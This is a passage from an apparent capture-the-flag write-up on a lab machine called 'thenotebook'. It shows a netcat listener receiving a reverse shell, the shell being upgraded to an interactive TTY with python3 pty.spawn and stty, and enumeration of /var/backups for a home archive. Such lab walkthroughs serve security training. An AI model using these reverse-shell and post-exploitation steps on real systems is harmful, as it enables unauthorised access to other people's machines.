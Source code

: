 Sucess!
{% highlight bash %}
$ nc -lvnp 7575            
listening on [any] 7575 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.230] 46698
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}

## User 

First we get a proper shell.

{% highlight bash %}
$ nc -lvnp 7575            
listening on [any] 7575 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.230] 46698
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
www-data@thenotebook:~/html$ ^Z
zsh: suspended  nc -lvnp 7575
$ stty raw -echo; fg % 1                                   148 ⨯ 1 ⚙
[1]  + continued  nc -lvnp 7575
                               export TERM=screen
www-data@thenotebook:~/html$ 
{% endhighlight %}

Manually enumerating the box we don’t see anything in /var/www/html.  From the second hint in the admin notes we check /var/backups and see home.tar.gz.  We also see a user account for noah.

{% highlight bash %}
www-data@thenotebook:~/html$ ls -la
total 8
drwxr-xr-x 2 root     www-data 4096 Aug  3 19:55 .
drwxr-xr-x 5 www-data www-data 4096 Aug  3 16:34 ..
www-data@thenotebook:~/html$ cd ../../
www-data@thenotebook:/var$ ls -la
total 56
drwxr-xr-x 14 root     root     4096 Feb 12 06:52 .
drwxr-xr-x 24 root     root     4096 Jul 23 14:28 ..
drwxr-xr-x  2 root     root     4096 Aug  3 15:37 backups
drwxr-xr-x 10 root     root     4096 Feb 12 06:25 cache
drwxrwxrwt  2 root     root     4096 Aug  6  2020 crash
drwxr-xr-x 39 root     root     4096 Feb 23 08:58 lib
drwxrwsr-x  2 root     staff    4096 Apr 24  2018 local
lrwxrwxrwx  1 root     root        9 Aug  6  2020 lock -> /run/lock
drwxrwxr-x  6 root     syslog   4096 Aug  3 15:37 log
drwxrwsr-x  2 root     mail     4096 Aug  6  2020 mail
drwxr-xr-x  2 root     root     4096 Aug  6  2020 opt
lrwxrwxrwx  1 root     root        4 Aug  6  2020 run -> /run
drwxr-xr-x  2 root     root     4096 Jul 10  2020 snap
drwxr-xr-x  4 root     root     4096 Aug  6  2020 spool
drwxrwxrwt  3 root     root     4096 Aug  3 20:39 tmp
drwxr-xr-x  5 www-data www-data 4096 Aug  3 16:34 www
www-data@thenotebook:/var$ cd backups/
www-data@thenotebook:/var/backups$ ls -la
total 64
drwxr-xr-x  2 root root  4096 Aug  3 15:37 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33585 Jul 23 14:24 apt.extended_states.0
-rw-r--r--  1 root root  3618 Feb 24 08:53 apt.extended_states.1.gz
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.2.gz